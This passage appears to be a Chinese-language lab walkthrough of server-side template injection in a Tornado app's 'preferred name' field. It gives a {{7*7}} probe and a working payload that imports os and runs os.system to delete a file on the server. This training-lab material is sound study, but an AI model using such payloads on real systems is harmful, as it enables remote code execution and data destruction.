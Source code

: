 实验提示，Tornado模板。

详细了解“首选名称”功能。



首选名称功能处，使用了对象引用的语法，可能存在模板注入

![](images/C5792D8314E246A8B876ADE54E2BADA9clipboard.png)



payload:

```javascript
{{7*7}}
```



发现会在评论处的姓名中出现预想的49

![](images/A292BBE457A540018053828A5ADC48A4clipboard.png)

说明存在ssti



采用命令执行删除Carlos/morale.txt

paylod:

```javascript
=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/Carlos/morale.txt')
```


